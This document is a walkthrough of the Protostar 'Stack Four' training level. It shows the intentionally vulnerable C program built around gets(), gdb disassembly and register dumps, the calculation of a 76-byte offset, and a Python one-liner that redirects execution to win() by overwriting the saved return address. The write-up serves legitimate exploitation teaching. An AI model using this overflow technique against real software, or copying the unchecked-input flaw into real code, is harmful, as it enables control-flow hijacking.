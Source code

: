 # Stack Four

> Stack4 takes a look at overwriting saved EIP and standard buffer overflows. This level is at /opt/protostar/bin/stack4&#x20;
>
>
>
> **Hints**
>
> * A variety of introductory papers into buffer overflows may help
> * gdb lets you do “run < input
> * EIP is not directly after the end of buffer, compiler padding can also increase the size.

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

* In this program, we have the `win` function.
* There is no initialized function pointer in the `main` function. There fore we will have to overwrite the saved `eip`, also known as the the saved return address.
* The saved return address is located before the buffer.

```
                    +-------------------------+                                                       
entry esp --------> |     saved eip           |
                    |     (return address)    |
                    |-------------------------|                                                           
new ebp ----------> |     saved ebp           |
                    |-------------------------|
                    |     buff [63]           |
                    |          .              |
                    |          .              |
		    |          .              |
		    |     buff [0]            |
		    |-------------------------|
new esp ----------> |     i                   |
		    +-------------------------+
```

* That was a generalized representation.
* We need the exact layout of the stack in order to craft our payload.

```
(gdb) disassemble main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
```

* Set a breakpoint at `main+21` and pass in the following input:

```
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
```

* This will lead to segmentation fault.

```
Program received signal SIGSEGV, Segmentation fault.
0x74747474 in ?? ()
```

* The error message tells us that the value of stored `eip` was changed to `0x74747474` which is not a valid address. `0x74` is `t` in ASCII.
* Let's try to get a clearer picture.

```
(gdb) info registers
eax            0xbffff770       -1073744016
ecx            0xbffff770       -1073744016
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7c0       0xbffff7c0
ebp            0x73737373       0x73737373
esi            0x0      0
edi            0x0      0
eip            0x74747474       0x74747474
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

* So the 77th, 78th, 79th and 80th bytes from our input overwrote the saved `eip`, and the four bytes before those which were `ssss` overwrote the saved `ebp`.
* This means we need 80 bytes in total. 64 bytes to fill the `buffer`, 8 bytes of padding, 4 bytes to overwrite the `saved ebp` and 4 for overwriting the `saved eip`.
* In order to alter control flow to the `win` function, we first need to know its address.

```
(gdb) disassemble win
Dump of assembler code for function win:
0x080483f4 <win+0>:     push   ebp
0x080483f5 <win+1>:     mov    ebp,esp
0x080483f7 <win+3>:     sub    esp,0x18
0x080483fa <win+6>:     mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
End of assembler dump.
```

* These four bytes need to be the `0x080483f4` address in little-endian format.

### Exploit

```
$ python -c 'print "A"*76 + "\xf4\x83\x04\x08"' | ./stack4
code flow successfully changed
Segmentation fault
```
